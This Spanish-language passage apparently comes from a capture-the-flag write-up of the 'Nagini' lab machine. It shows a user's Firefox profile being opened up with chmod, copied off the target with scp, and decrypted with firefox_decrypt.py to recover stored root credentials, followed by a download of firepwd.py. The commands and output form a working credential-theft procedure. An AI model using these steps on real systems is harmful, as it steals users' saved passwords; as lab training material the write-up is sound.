 Ahora, necesitamos el **directorio .mozilla**, pero solamente el **usuario hermoine** puede entrar y ver su contenido, así que vamos a modificar sus permisos, para que cualquiera pueda hacer lo mismo:
```bash
hermoine@Nagini:~$ chmod -R 755 .mozilla/
hermoine@Nagini:~$ ls -la .mozilla/
total 20
drwsr-xr-x 5 hermoine hermoine 4096 Jun  1  2019 .
drwxr-xr-x 6 hermoine hermoine 4096 Nov 15 06:52 ..
drwxr-xr-x 2 hermoine hermoine 4096 Jun  1  2019 extensions
drwxr-xr-x 5 hermoine hermoine 4096 Jun  1  2019 firefox
drwxr-xr-x 2 hermoine hermoine 4096 Jun  1  2019 systemextensionsdev
```
Listo.

Y con la herramienta **scp**, vamos a copiar ese directorio, usando la cuenta del **usuario snape**:
```bash
scp -r snape@192.168.1.006:/home/hermoine/.mozilla .
snape@192.168.1.006's password: 
profiles.ini                                    100%  175    47.2KB/s   00:00    
InstallTime20190517140819                       100%   10     2.9KB/s   00:00    
InstallTime20190828152820                       100%   10     3.0KB/s   00:00    
...
...
...
...
```
Excelente.

Moveré el **directorio .mozilla** a otro directorio solo para que quede mejor ordenado y luego ejecutamos el **firefox_decrypt.py**, indicando la ruta del directorio `.mozilla/firefox`:
```bash
python3 firefox_decrypt.py Firefox_creds/.mozilla/firefox

Website:   http://nagini.hogwarts
Username: 'root'
Password: '...'
```
Muy bien, tenemos las credenciales del **Root**.

<br>

<h3 id="firepwd">Utilizando firepwd.py para Crackear Credenciales de logins.json de FireFox</h3>

Descargamos solamente el script:
```bash
wget https://raw.githubusercontent.com/lclevy/firepwd/refs/heads/master/firepwd.py
--2024-11-14 14:42:52--  https://raw.githubusercontent.com/lclevy/firepwd/refs/heads/master/firepwd.py
Resolving raw.githubusercontent.com (raw.githubusercontent.com)...
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)... connected.
HTTP request sent, awaiting response... 200 OK
Length: 14856 (15K) [text/plain]
Saving to: ‘firepwd.py’

firepwd.py                      100%[==========================>]  14.51K  --.-KB/s    in 0.01s   

2024-11-14 14:42:53 (1.09 MB/s) - ‘firepwd.py’ saved [14856/14856]
```
